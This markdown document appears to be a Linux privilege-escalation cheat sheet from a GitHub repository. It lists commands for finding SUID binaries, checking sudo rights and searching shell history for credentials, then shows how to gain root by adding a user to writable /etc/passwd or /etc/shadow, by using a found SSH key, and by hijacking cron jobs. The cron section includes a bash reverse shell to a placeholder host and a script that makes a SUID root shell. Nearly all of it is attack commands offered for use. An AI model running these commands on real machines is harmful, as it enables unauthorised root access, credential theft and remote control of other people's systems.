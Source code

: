 ## Basics

```
find / -perm -u=s -type f 2>/dev/null
```

search file system for SUID files.

```
sudo -l
```

check sudo rights.

```
export PATH=<path>:$PATH
```

update the path.

Check `~/.*history` for credentials.

___

## ssh

**Precondition:** key file (id_rsa) found.
```
chmod 600 id_rsa
ssh -i id_rsa <username>@<ip>
```
remote login using ssh.

___

## /etc/passwd

**Precondition:** write access to the file.

Add line: `<username>:<password>:0:0:root:/root:/bin/bash`.
`openssl passwd -1 [-salt <salt>] <password>` to generate a password.

___

## /etc/shadow

**Precondition:** write access to the file.

_line format:_ `<user>:<password>:...`.

`mkpasswd -m sha-512 <password>` to generate a password.

___

## /etc/crontab

_line format:_ `<id> <minute> <hour> <day of the month> <month> <day of the week> <user> <command>`.

Find a line where command file can be altered or overwritten with same filename in a different path.

```
#!/bin/bash
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

reverse shell script.

```
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

script to generate a superuser shell.

Then, after script is run from crontab, run `/tmp/rootbash`.